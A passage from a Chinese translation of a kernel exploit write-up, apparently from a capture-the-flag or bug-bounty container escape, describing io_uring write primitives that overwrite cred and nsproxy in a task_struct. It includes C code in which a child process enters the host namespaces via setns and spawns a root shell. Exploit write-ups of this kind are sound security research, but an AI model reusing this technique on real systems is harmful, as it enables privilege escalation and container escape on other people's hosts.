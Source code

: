 ### Performing Our Writes

现在，是时候进行写入操作了。还记得我们打算在 io_fill_cqe_aux 中使用的三个顺序写入吗？原因是，这三次写操作如下：

```
cqe = io_get_cqe(ctx);
	if (likely(cqe)) {
		WRITE_ONCE(cqe->user_data, user_data);
		WRITE_ONCE(cqe->res, res);
		WRITE_ONCE(cqe->flags, cflags);
```


在覆盖目标子 task_struct 中的目标 nsproxy 成员之前，它们工作得非常顺利。其中一次写入不可避免地覆盖了 nsproxy 旁边的成员：signal 和 sighand。这给我带来了很大的麻烦，因为当中断发生时，这些成员（指针）会被取消引用，并导致内核慌乱，因为它们是无效值。因此，我选择在 io_commit_cqring 中只写入 4 字节。4 字节写入也会带来一些问题，因为在某些情况下，需要对当前值进行检查，而这基本上相当于撕裂式的 8 字节写入，在这些检查过程中，我们会让当前值处于无效状态。这就是我不得不使用子进程的原因。感谢 @pqlpql 告诉我这个问题。

现在，我们只需使用同样的步骤覆盖 real_cred、cred 和 nsproxy 这三个成员，我们的子节点就能拥有与 init 相同的权限和能力，包括在主机根文件系统中的可见性。这样就完美了，但我仍然无法获得标志！


这时我开始恐慌，担心自己做错了什么。这个漏洞利用起来需要经过很多的检查：例如，我重读了每一个被覆盖的值，以确保它是正确的，所以我确信我的写入操作是正确的。我感觉我的命名空间在子进程中还没有生效，好像被缓存在了某个地方。但后来我想起在 Andy Nguyen 的博文中，他使用 root 权限通过调用 setns 来明确设置命名空间值。一旦我添加了这一步，孩子就能看到根文件系统并找到标志。与其让我的孩子使用与 init 相同的命名空间，不如让它使用与自己相同的命名空间。我还没来得及确定 setns 是如何实现的，但也许不需要明确调用 setns，只用我们的读写工具就能实现：

```
// Our child waits to be given super powers and then drops into shell
void child_exec(void)
{
    // Change our taskname 
    if (prctl(PR_SET_NAME, TARGET_TASK, NULL, NULL, NULL) != 0)
    {
        err("`prctl()` failed");
    }

    while (1)
    {
        if (*(int *)g_shmem == 0x1337)
        {
            sleep(3);
            info("Child dropping into root shell...");
            if (setns(open("/proc/self/ns/mnt", O_RDONLY), 0) == -1) { err("`setns()`"); }
            if (setns(open("/proc/self/ns/pid", O_RDONLY), 0) == -1) { err("`setns()`"); }
            if (setns(open("/proc/self/ns/net", O_RDONLY), 0) == -1) { err("`setns()`"); }
            char *args[] = {"/bin/sh", NULL, NULL};
            execve(args[0], args, NULL);
        }

        else { sleep(2); }
    }
}
```

最后，我终于可以进入 root shell 并捕获标志，逃离容器。当我尝试在谷歌基础架构上使用我的漏洞时，一个巨大的障碍是他们的内核编译时支持 SELinux，而我的测试环境不支持。但幸运的是，与大多数其他 fcntl syscall 标志不同，我们使用的任意读取实际上并没有被 SELinux 以任何方式挂钩。在这一点上，请记住，我们还不知道足够的信息来伪造内存中的任何对象，所以如果这种读取方法被 SELinux 毁了，就没有办法利用了。
